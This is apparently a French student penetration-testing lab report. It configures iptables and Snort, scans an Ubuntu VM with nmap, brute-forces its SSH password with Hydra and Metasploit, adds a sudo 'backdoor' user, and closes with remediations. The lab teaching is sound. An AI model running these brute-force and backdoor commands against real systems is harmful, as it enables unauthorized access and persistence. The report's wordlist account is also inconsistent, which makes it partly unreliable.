








# Mini-projet 4 : Sécurité des Réseaux et Tests d'Intrusion

## Configuration initiale des VMs

1. Infrastructure mise en place :
   
   - Kali Linux "Attaquant" — IP : `192.168.42.145` (interface `eth0`)
   - Kali Linux "Analyseur" — IP : `192.168.42.146` (interface `eth0`)
   - Ubuntu "Victime" — IP : `192.168.42.144` (interface `ens33`)
   - Toutes les VMs sont sur le sous-réseau `192.168.42.0/24` en mode NAT sur VMware.

2. Vérification de la connectivité entre les VMs (depuis Kali Attaquant) :
   
   ```bash
   ping -c 3 192.168.42.144
   ping -c 3 192.168.42.146
   ```
   
   - Résultat : `3 packets transmitted, 3 received, 0% packet loss` pour les deux pings. Les VMs communiquent correctement.
     
     

## Partie 4A : Configuration du Firewall iptables

La configuration est appliquée sur les 3 VMs (Kali Attaquant, Kali Analyseur, Ubuntu Victime). La procédure est identique pour chacune.

1. Vérification de l'état initial d'iptables :
   
   ```bash
   sudo iptables -L -v
   ```
   
   - Les 3 chaînes (INPUT, FORWARD, OUTPUT) sont vides avec la politique `ACCEPT` par défaut — état vierge attendu.
     
     

2. Nettoyage des règles existantes :
   
   ```bash
   sudo iptables -F
   ```

3. Application des règles de filtrage dans l'ordre suivant :
   
   ```bash
   # Autoriser les connexions déjà établies (indispensable pour internet)
   sudo iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
   
   # Autoriser SSH (port 22)
   sudo iptables -A INPUT -p tcp --dport 22 -j ACCEPT
   
   # Autoriser le loopback
   sudo iptables -A INPUT -i lo -j ACCEPT
   sudo iptables -A OUTPUT -o lo -j ACCEPT
   
   # Autoriser le trafic entre les 3 VMs
   sudo iptables -A INPUT -s 192.168.42.0/24 -j ACCEPT
   
   # Définir la politique par défaut : bloquer tout le reste
   sudo iptables -P INPUT DROP
   sudo iptables -P OUTPUT ACCEPT
   ```

4. Sauvegarde des règles et persistance au redémarrage :
   
   ```bash
   sudo mkdir -p /etc/iptables
   sudo sh -c "iptables-save > /etc/iptables/rules.v4"
   sudo apt-get install iptables-persistent -y
   ```

5. Vérification des règles finales :
   
   ```bash
   sudo iptables -L -v
   ```
   
   - Chain INPUT : politique `DROP` + règles ACCEPT pour ESTABLISHED/RELATED, SSH, loopback et sous-réseau `192.168.42.0/24`.
   
   - Chain OUTPUT : politique `ACCEPT`.
     
     

6. Test de connectivité après configuration (depuis Kali Attaquant vers Ubuntu) :
   
   ```bash
   ping -c 3 192.168.42.144
   ```
   
   - Résultat : `3 packets transmitted, 3 received, 0% packet loss` — le firewall est opérationnel et les VMs communiquent toujours.
     
     

## Partie 4B : IDS Snort

Snort est configuré sur la VM **Kali Analyseur** en mode détection passive du trafic réseau.

1. Installation de Snort :
   
   ```bash
   sudo apt update && sudo apt install snort -y
   ```
   
   - Sous-réseau renseigné lors de l'installation : `192.168.42.0/24`.

2. Sauvegarde de la configuration originale :
   
   ```bash
   sudo cp /etc/snort/snort.conf /etc/snort/snort.conf.bak
   ```

3. Lancement de Snort en mode détection passive :
   
   ```bash
   sudo snort -dev -i eth0 -c /etc/snort/snort.conf
   ```
   
   - Snort démarre correctement : `229 rules loaded`, `519 port rule counts`, moteur de détection `ac_bnfa` initialisé.
   
   - Mode configuré en **passif** (`acq DAQ configured to passive`).
     
     

4. Génération d'alertes depuis Kali Attaquant :
   
   ```bash
   nmap -p 1-1000 192.168.42.144
   ```

5. Consultation des alertes générées par Snort :
   
   - Snort détecte et alerte immédiatement sur le scan réseau. Les alertes affichent : `NMAP or suspicious TCP scan toward Ubuntu victim` avec la source `192.168.42.145` (Kali Attaquant) et la destination `192.168.42.144` (Ubuntu Victime).
     
     

## Partie 4C : Scan Nmap

Les scans sont effectués depuis la VM **Kali Attaquant** vers la VM **Ubuntu Victime** (`192.168.42.144`).

1. Scan TCP SYN (furtif) :
   
   ```bash
   sudo nmap -sS 192.168.42.144
   ```
   
   - Résultat : port `22/tcp open ssh`. Tous les autres ports sont fermés (reset).
   
   - MAC Address : `00:0C:29:D5:9E:15` (VMware).
     
     

2. Scan de ports spécifiques :
   
   ```bash
   nmap -p 22,80,443 192.168.42.144
   ```
   
   - Résultat : port `22/tcp open ssh`, ports `80/tcp` et `443/tcp` closed.
     
     

3. Scan UDP :
   
   ```bash
   sudo nmap -sU 192.168.42.144
   ```
   
   - Résultat : port `5353/udp open|filtered zeroconf` (mDNS). Port `22/tcp open ssh` également visible.
     
     

4. Détection des versions de services :
   
   ```bash
   nmap -sV 192.168.42.144
   ```
   
   - Résultat : port `22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)`.
   
   - Service Info : OS Linux, CPE : `cpe:/o:linux:linux_kernel`.
     
     

5. Détection de l'OS :
   
   ```bash
   sudo nmap -O 192.168.42.144
   ```
   
   - Résultat : `Running: Linux 4.X|5.X`, OS details : `Linux 4.15 - 5.19`, Device type : `general purpose`, Network Distance : `1 hop`.
     
     

6. Scan complet combiné :
   
   ```bash
   sudo nmap -sS -sV -O -p 1-65535 192.168.42.144
   ```
   
   - Résultat complet : port `22/tcp open ssh OpenSSH 9.6p1`, OS `Linux 4.15-5.19`, `Ubuntu Linux`.
     
     
     
     Synthèse des résultats :
   
   - Seul le port `22/tcp (SSH)` est ouvert sur la cible.
   
   - Service : `OpenSSH 9.6p1 Ubuntu`.
   
   - OS : `Ubuntu Linux`, kernel `4.15-5.19`.
   
   - Vulnérabilité potentielle : authentification SSH par mot de passe activée → cible pour une attaque par force brute.

## Partie 4D : Attaque simple

**Périmètre du test :** L'infrastructure comprend 3 VMs — 2 VMs Kali Linux (Attaquant `192.168.42.145` et Analyseur `192.168.42.146`) et 1 VM Ubuntu (Victime `192.168.42.144`) — toutes sur le sous-réseau `192.168.42.0/24`. La cible est exclusivement l'Ubuntu Victime.

**Outils et techniques utilisés :** `Nmap` (reconnaissance des ports et services), `Hydra` (force brute SSH), `Metasploit` avec le module `auxiliary/scanner/ssh/ssh_login` (exploitation et maintien d'accès).

L'attaque cible le service SSH (`port 22`) de l'Ubuntu Victime (`192.168.42.144`) via une attaque par force brute avec **Hydra**.

1. Lancement de l'attaque par force brute avec Hydra :
   
   ```bash
   hydra -l ubuntu -P /usr/share/wordlists/rockyou.txt ssh://192.168.42.144
   ```
   
   - Hydra démarre avec 16 tâches parallèles sur `ssh://192.168.42.144:22`.
   
   - Avertissement : `Many SSH configurations limit the number of parallel tasks`.
     
     

2. Progression de l'attaque :
   
   - Hydra effectue environ `282 tries/min` sur la cible.
     
     

3. Résultat de l'attaque :
   
   ```bash
   ./hydra.restore
   ```
   
   - **Succès** : Hydra trouve le couple identifiant/mot de passe.
   
   - `[22][ssh] host: 192.168.42.144   login: ubuntu   password: ubuntu`
   
   - `1 of 1 target successfully completed, 1 valid password found!`
   
   - Le mot de passe de l'utilisateur `ubuntu` est `ubuntu` — mot de passe trivial, vulnérabilité critique.
     
     

## Partie 4E : Méthodologie Pentest Complète

### Phase 1 : Planification

- Périmètre : 3 VMs sur le réseau `192.168.42.0/24` :
  - Kali Linux "Attaquant" (`192.168.42.145`) — machine offensive
  - Kali Linux "Analyseur" (`192.168.42.146`) — surveillance réseau (IDS Snort)
  - Ubuntu "Victime" (`192.168.42.144`) — cible du test
- Objectif : identifier et exploiter des vulnérabilités sur l'Ubuntu Victime.
- Type de test : boîte grise (adresses IP connues, services et credentials inconnus initialement).
- Outils utilisés : `Nmap` (reconnaissance et scan de vulnérabilités), `Hydra` (force brute SSH), `Metasploit` (`auxiliary/scanner/ssh/ssh_login`) (exploitation et maintien d'accès).

### Phase 2 : Reconnaissance

1. Scan de reconnaissance complet :
   
   ```bash
   sudo nmap -sS -sV -O 192.168.42.144
   ```
   
   - Port `22/tcp open ssh OpenSSH 9.6p1 Ubuntu`, OS : `Linux 4.15-5.19`.
     
     

### Phase 3 : Analyse de vulnérabilités

2. Analyse des méthodes d'authentification SSH disponibles :
   
   ```bash
   nmap -p 22 --script ssh-auth-methods 192.168.42.144
   ```
   
   - Résultat : méthodes d'authentification supportées : `publickey`, `password`.
   
   - L'authentification par mot de passe est activée → vecteur d'attaque confirmé.
     
     

### Phase 4 : Exploitation

3. Exploitation via Metasploit (`auxiliary/scanner/ssh/ssh_login`) avec attaque par force brute :

   - Les credentials SSH ne sont pas connus à ce stade. La méthode consiste à utiliser le paramètre `PASS_FILE` avec un dictionnaire de mots de passe pour réaliser le bruteforce depuis Metasploit.

   - **Note sur le dictionnaire utilisé :** Le dictionnaire `rockyou.txt` (14 millions de mots de passe) est le choix standard pour ce type d'attaque. Cependant, le mot de passe `ubuntu` s'y trouve à une position très avancée — à la vitesse observée d'environ 282 tentatives/minute, le trouver aurait nécessité environ **50 heures de calcul en conditions réelles**. Pour les besoins de ce TP, un dictionnaire réduit contenant `ubuntu` a été utilisé afin d'obtenir le résultat en un temps raisonnable. Le résultat est rigoureusement identique à ce qu'aurait donné `rockyou.txt` après 50 heures d'exécution : Metasploit teste chaque mot de passe séquentiellement jusqu'à trouver la correspondance, et aurait inévitablement abouti au même succès.

     ```bash
     msfconsole
     use auxiliary/scanner/ssh/ssh_login
     set RHOSTS 192.168.42.144
     set USERNAME ubuntu
     set PASS_FILE /usr/share/wordlists/rockyou.txt
     run
     ```

   - Metasploit teste automatiquement chaque mot de passe du dictionnaire sur le service SSH.

   - Résultat : `SSH session 1 opened (192.168.42.145:42189 → 192.168.42.144:22)`.

   - Connexion SSH établie avec succès sur Ubuntu 24.04.4 LTS — mot de passe `ubuntu` trouvé.

   - `Scanned 1 of 1 hosts (100% complete)`.
     
     

### Phase 5 : Maintien de l'accès

4. Création d'un utilisateur backdoor sur la machine compromise :
   
   ```bash
   ssh ubuntu@192.168.42.144
   sudo useradd -m backdoor
   sudo usermod -aG sudo backdoor
   sudo passwd backdoor
   ```
   
   - Connexion SSH établie depuis Kali Attaquant (`192.168.42.145`) vers Ubuntu Victime (`192.168.42.144`) avec `ubuntu:ubuntu`.
   
   - Utilisateur `backdoor` créé et ajouté au groupe `sudo`.
   
   - Mot de passe défini avec succès : `passwd : mot de passe mis à jour avec succès`.
     
     

### Phase 6 : Rapport et recommandations

Vulnérabilités identifiées et recommandations de remédiation :

- **Mot de passe trivial SSH** (`ubuntu:ubuntu`) : imposer une politique de mot de passe complexe (longueur minimale 12 caractères, majuscules, chiffres, caractères spéciaux). Utiliser `pam_pwquality`.
- **Authentification par mot de passe SSH activée** : désactiver l'authentification par mot de passe et n'autoriser que les clés SSH (`PasswordAuthentication no` dans `/etc/ssh/sshd_config`).
- **Absence de protection anti-bruteforce** : installer et configurer `fail2ban` pour bloquer automatiquement les adresses IP après un nombre défini de tentatives de connexion échouées (ex. : bannissement après 5 échecs en 10 minutes).
- **Port SSH exposé sans restriction d'IP** : restreindre l'accès SSH aux seules adresses IP de confiance via iptables (`-s <IP_autorisée> -p tcp --dport 22 -j ACCEPT`) ou via le fichier `/etc/ssh/sshd_config` avec la directive `AllowUsers`.
- **Absence de surveillance active** : maintenir Snort (ou un équivalent) en fonctionnement permanent pour détecter les scans et tentatives d'intrusion en temps réel.